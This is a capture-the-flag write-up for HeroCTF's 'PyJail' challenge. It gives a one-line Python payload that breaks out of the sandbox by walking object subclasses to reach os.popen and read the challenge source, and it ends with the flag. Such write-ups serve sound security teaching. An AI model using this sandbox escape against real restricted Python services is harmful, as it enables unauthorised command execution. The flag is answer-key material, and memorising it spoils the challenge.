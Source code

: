 # PyJail

### Category

Misc

### Description

Welcome in jail. If it's not your first time, you should be out quickly. If it is your first rodeo, people have escape before you... I'm sure you'll be fine.

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

They are countless ways to espape this pyjail. The easiest way to get a command execution in most pyjails is to find a way to either the `__import__` function, or directly to the `os` module. In this case, the payload is the following :

```python
print(().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cat pyjail.py').read())
```

The detailed steps of this method are described here : https://ctftime.org/writeup/25816

But like I said, you probably found your own way, as this pyjail was pretty open x). The next should not be that easy !


### Flag

```Hero{nooooo_y0u_3sc4p3d!!}```
